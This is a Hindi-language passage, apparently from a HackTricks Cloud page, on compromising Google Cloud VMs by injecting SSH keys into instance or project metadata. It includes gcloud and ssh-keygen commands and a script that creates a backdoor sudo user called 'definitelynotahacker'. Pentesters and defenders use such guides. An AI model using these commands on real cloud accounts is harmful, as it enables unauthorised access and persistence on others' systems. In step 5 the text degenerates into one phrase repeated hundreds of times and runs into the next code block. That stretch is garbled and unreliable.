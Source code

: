 # GCP - अपनी विशेष SSH मेटाडेटा जोड़ें

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ जीरो से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **जुड़ें** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) से या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें और PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## मेटाडेटा संशोधन <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

एक इंस्टेंस पर मेटाडेटा संशोधन किया जा सकता है जो यदि किसी हमलावर को आवश्यक अनुमतियाँ प्राप्त हो जाएं तो **महत्वपूर्ण सुरक्षा जोखिमों** का कारण बन सकता है।

### **कस्टम मेटाडेटा में SSH कुंजियों का समावेश**

GCP पर, **Linux सिस्टम** अक्सर [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) से स्क्रिप्ट चलाते हैं। इसका एक महत्वपूर्ण घटक है [खाते डेमन](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), जो इंस्टेंस मेटाडेटा एंडप्वाइंट पर **अधिकृत SSH सार्वजनिक कुंजियों के अपडेट के लिए नियमित रूप से जांच करने के लिए डिज़ाइन किया गया है**।

इसलिए, यदि किसी हमलावर को कस्टम मेटाडेटा में संशोधन करने की अनुमति हो, तो वह डेमन एक नई सार्वजनिक कुंजी खोजेगा, जो स्थानीय सिस्टम में **एकीकृत की जाएगी**। कुंजी को **मौजूदा उपयोगकर्ता के `~/.ssh/authorized_keys` फ़ाइल में जोड़ दिया जाएगा या संभावित रूप से `sudo` अधिकारों वाले नए उपयोगकर्ता को बनाया जा सकता है**, कुंजी के प्रारूप पर निर्भर करता है। और हमलावर होस्ट को कंप्रमाइज कर सकेगा।

### **मौजूदा विशेषाधिकारी उपयोगकर्ता में SSH कुंजी जोड़ें**

1. **इंस्टेंस पर मौजूदा SSH कुंजियों की जांच करें:**
- इंस्टेंस और उसकी मेटाडेटा का विवरण विवरणित करने के लिए आदेश निष्पादित करें ताकि मौजूदा SSH कुंजियों को ढूंढा जा सके। उत्पादन में संबंधित खंड `metadata` के अंतर्गत होगा, विशेष रूप से `ssh-keys` कुंजी के तहत।
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- SSH कुंजियों के प्रारूप पर ध्यान दें: उपयोगकर्ता कुंजी के आगे कुंजी है, जो एक अक्षमता द्वारा अलग किया गया है।

2. **SSH कुंजी मेटाडेटा के लिए एक पाठ फ़ाइल तैयार करें:**
- उपयोगकर्ताओं के विवरण और उनकी संबंधित SSH कुंजियों को `meta.txt` नामक एक पाठ फ़ाइल में सहेजें। यह मौजूदा कुंजियों को सुरक्षित रखने के लिए आवश्यक है जबकि नए कुंजियाँ जोड़ी जाती हैं।

3. **लक्षित उपयोगकर्ता के लिए एक नई SSH कुंजी उत्पन्न करें (`एलिस` इस उदाहरण में):**
- नई SSH कुंजी उत्पन्न करने के लिए `ssh-keygen` आदेश का उपयोग करें, सुनिश्चित करें कि टिप्पणी क्षेत्र (`-C`) लक्षित उपयोगकर्ता से मेल खाता है।
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- नई सार्वजनिक कुंजी को `meta.txt` में जोड़ें, इंस्टेंस की मेटाडेटा में पाए जाने वाले प्रारूप की तरह।

4. **इंस्टेंस की SSH कुंजी मेटाडेटा को अपडेट करें:**
- `gcloud compute instances add-metadata` आदेश का उपयोग करके इंस्टेंस को अपडेट किए गए SSH कुंजी मेटाडेटा लागू करें।
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **नई SSH कुंजी का उपयोग करके इंस्टेंस तक पहुंचें:**
- नई कुंजी का उपयोग करके इंस्टेंस से SSH के साथ कनेक्ट करें, लक्षित उपयोगकर्ता के संदर्भ में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल म
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### परियोजना स्तर पर SSH कुंजियाँ <a href="#sshing-around" id="sshing-around"></a>

**परियोजना स्तर पर SSH कुंजियाँ लागू करना** द्वारा एक बादल परिवेश में कई वर्चुअल मशीन (VMs) तक SSH पहुंच को विस्तारित किया जा सकता है। यह दृष्टिकोण एक परियोजना के स्तर पर किसी भी उदाहरण में SSH पहुंच की अनुमति देता है जो परियोजना-स्तर की SSH कुंजियों को स्पष्ट रूप से नहीं अवरुद्धित किया है। यहाँ एक संक्षेपित मार्गदर्शिका है:

1. **परियोजना स्तर पर SSH कुंजियाँ लागू करें:**
- `gcloud compute project-info add-metadata` कमांड का उपयोग करें ताकि `meta.txt` से SSH कुंजियाँ परियोजना की मेटाडेटा में जोड़ सकें। यह कार्रवाई सुनिश्चित करती है कि SSH कुंजियाँ परियोजना में सभी VMs में मान्य हैं, जब तक कोई VM "परियोजना-स्तर की SSH कुंजियों को अवरुद्ध करें" विकल्प सक्षम नहीं करता है।
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **परियोजना-स्तर की कुंजियों का उपयोग करके उदाहरणों में SSH करें:**
- परियोजना-स्तर की SSH कुंजियाँ लागू होने पर, आप परियोजना के भीतर किसी भी उदाहरण में SSH कर सकते हैं। परियोजना-स्तर कुंजियों को अवरुद्धित न करने वाले उदाहरण स्वीकार करेंगे, जिससे पहुंच मिलेगी।
- एक उदाहरण में SSH करने का सीधा तरीका `gcloud compute ssh [INSTANCE]` कमांड का उपयोग करना है। यह कमांड आपके वर्तमान उपयोगकर्ता नाम और परियोजना स्तर पर सेट की गई SSH कुंजियों का उपयोग करता है पहुंच की कोशिश करने के लिए।


# संदर्भ
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
